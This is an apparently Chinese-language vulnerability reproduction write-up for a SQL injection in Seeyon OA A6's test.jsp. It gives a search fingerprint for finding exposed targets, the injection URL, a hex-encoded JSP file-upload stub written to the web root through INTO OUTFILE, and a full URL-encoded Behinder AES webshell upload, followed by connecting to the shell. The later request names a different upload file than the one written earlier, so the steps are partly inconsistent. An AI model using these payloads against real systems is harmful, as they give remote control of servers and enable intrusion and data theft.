 # 致远OA A6 test.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 test.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问URL

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```

![image-20220520153021139](./images/202205201530175.png)

返回了当前使用的数据库, 要想写入shell需要知道写入的路径

![image-20220520153030730](./images/202205201530762.png)

这里得到路径 `D:\Program Files\UFseeyon\OA\mysql\bin..\`

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码 上传允许文件上传的jsp文件

```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

HEX编码

3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E
/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27E:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp%27
```

![image-20220520153102550](./images/202205201531630.png)

显示上图则上传成功，访问 test_upload.jsp 为空白不报错页面不存在就是上传成功

在发送请求包上传webshell，这里上传冰蝎

![image-20220520153118107](./images/202205201531199.png)

```
POST /yyoa/peiqi_upload.jsp?f=testwebshell.jsp

t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E
```

连接木马

![image-20220520153147280](./images/202205201531378.png)